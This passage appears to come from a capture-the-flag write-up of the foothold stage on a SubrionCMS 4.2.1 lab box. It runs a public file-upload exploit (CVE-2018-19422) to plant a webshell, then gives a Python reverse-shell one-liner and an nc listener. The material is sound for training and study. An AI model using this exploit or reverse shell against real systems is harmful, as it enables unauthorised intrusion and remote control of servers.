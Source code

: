 There is an arbitrary file upload exploit, let's copy it to the current directory with `searchsploit -m php/webapps/49876.py`

# **Foothold**

Let's see what options the exploits takes.

```terminal
$ python3 49876.py -h                                  
Usage: 49876.py [options]                                                                                                                                    
                                                                              
Options:    
                                                                                                                                                 
  -h, --help            show this help message and exit           
  -u URL, --url=URL     Base target uri http://target/panel                   
  -l USER, --user=USER  User credential to login                                                                                                             
  -p PASSW, --passw=PASSW   Password credential to login 
```

Let's run the exploit with `sudo python3 49876.py -u http://10.10.232.5/subrion/panel/ -l admin -p {password}`


```terminal
$ sudo python3 49876.py -u http://10.10.232.5/subrion/panel/ -l admin -p {password}                                                                      1 ⨯
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.232.5/subrion/panel/
[+] Success!
[+] Got CSRF token: OCNeAYMsDRNV04RLDnqjVdvzqRT94kShyUpwRyoT
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: xcntsbdyrzpwdec

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.232.5/subrion/panel/uploads/xcntsbdyrzpwdec.phar 

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's now get a reverse shell by setting up a listener with `nc -lvnp 9001` and executing the following command:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
>Change the ip address to your tun0 ip.
